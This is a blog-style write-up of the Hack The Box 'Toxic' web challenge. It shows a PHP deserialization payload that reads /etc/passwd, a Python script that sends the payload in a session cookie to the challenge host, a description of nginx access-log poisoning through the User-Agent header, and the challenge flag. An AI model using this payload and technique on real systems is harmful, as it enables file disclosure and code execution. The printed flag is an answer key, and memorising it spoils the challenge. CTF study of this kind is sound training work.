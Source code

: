 ```yaml
---
title: "Toxic - HackTheBox"
description: "https://app.hackthebox.com/challenges/Toxic"
summary: "Hack The Box Web Challenge Toxic"
date: 2024-01-24
draft: false
tags: ["Web", "HackTheBox", "Easy", "CTF"]
---
```


------------------------

### Challenge Description

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

### Insecure Deserialization

In the given source code we can spot that it is vulnerable to deserialization.

![image](md/5fbcaee1-b10f-4765-93ef-7a4be1f4330b.webp)

`PageModel` have magic method `__destruct()` to exploite Deserialization.

![image](md/1086d508-0033-4c6b-b6d4-3ec831a0bf87.webp)


payload=
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

```python
import requests
from itsdangerous import base64_encode

a = "PageModel"
b = "/etc/passwd"
payload = 'O:'+str(len(a))+':"'+a+'":1:{s:4:"file";s:'+str(len(b))+':"'+b+'";}'
payload = base64_encode(payload).decode()
r = requests.get("http://83.136.249.57:52345/",cookies={"PHPSESSID": payload},proxies={"http":"http://127.0.0.1:8080/"})
print(r.text)
```

The flag's name is random, so we need to find an alternative way to read it.

![image](md/23c0c811-0290-4d90-bd9d-96b18d9c09ca.webp)

### PHP code Injection in log file

We can find the path of `/etc/nginx/nginx.conf` in Dockerfile.

![image](md/f401a175-f86d-4ed6-9143-77d4b12e1817.webp)

Reading this file using the deserialization payload it reveals the path to access log `/var/log/nginx/access.log`.

![image](md/76d581a6-12c0-4665-855b-3c5f1bb44d3f.webp)

By analyzing the access log, we can see that the User-agent is recorded in the log file.

![image](md/d07a5788-7e8e-4667-b447-f4b5d8036053.webp)

We can attempt to insert PHP code into this log file and then read the file to determine whether the PHP code is executed.

![image](md/a4b748d2-a890-4c19-bd1c-166ef783e385.webp)

![image](md/d598a5ab-befc-4657-8b69-fde9f91c5230.webp)

and this works. Now we can use this PHP code injection to obtain the flag.

![image](md/a0a677ec-ee03-460e-84c9-932dc009992f.webp)

![image](md/e25196d7-00c7-4300-b002-11adf36413ff.webp)

Flag: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


Happy Hacking
